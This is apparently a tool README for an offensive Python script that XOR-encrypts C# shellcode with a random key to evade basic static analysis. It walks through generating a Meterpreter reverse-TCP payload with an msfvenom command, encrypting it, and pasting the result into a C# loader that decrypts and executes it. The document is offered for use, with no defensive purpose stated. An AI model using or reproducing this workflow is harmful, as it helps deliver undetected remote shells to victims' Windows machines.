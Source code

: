 This script encrypts C# shellcode using a random single-byte XOR key, providing lightweight obfuscation against basic static analysis.
Features:

- Generates a random XOR key for every execution.
- Encodes shellcode using XOR obfuscation.
- Formats output as a C# byte array for seamless integration.


1️⃣ Generate Shellcode (C# Format)
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp
```

2️⃣ Copy Shellcode

    Copy the byte array inside {} from msfvenom output.
    Paste it into buf in XORenc.py.

3️⃣ Run the Encryption Script
```bash
python3 XORenc.py
```

4️⃣ Copy the XOR Key & Encrypted Shellcode

    Paste them into your C# loader for decryption & execution.

